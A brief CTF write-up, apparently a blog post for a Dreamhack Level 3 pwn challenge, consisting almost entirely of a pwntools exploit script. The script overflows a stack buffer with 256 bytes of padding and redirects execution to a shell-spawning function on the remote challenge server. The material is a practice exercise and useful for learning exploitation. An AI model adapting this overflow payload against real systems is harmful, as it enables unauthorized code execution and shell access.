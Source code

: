 ```yaml
---
layout: post
title: (pwn) soon
categories: Writeup
---
```

<br>
[Dreamhack][Level3][Obfuscation]
<br>

```jsx
from pwn import *

context.log_level = 'debug'
#p = process('./main')
p = remote('host3.dreamhack.games',16075)
ret = 0x40101a
gsh = 0x4012FB


payload = b'A' * 256
payload += p64(0)
payload += p64(ret)
payload += p64(gsh)

p.sendline(payload)

p.interactive() 

```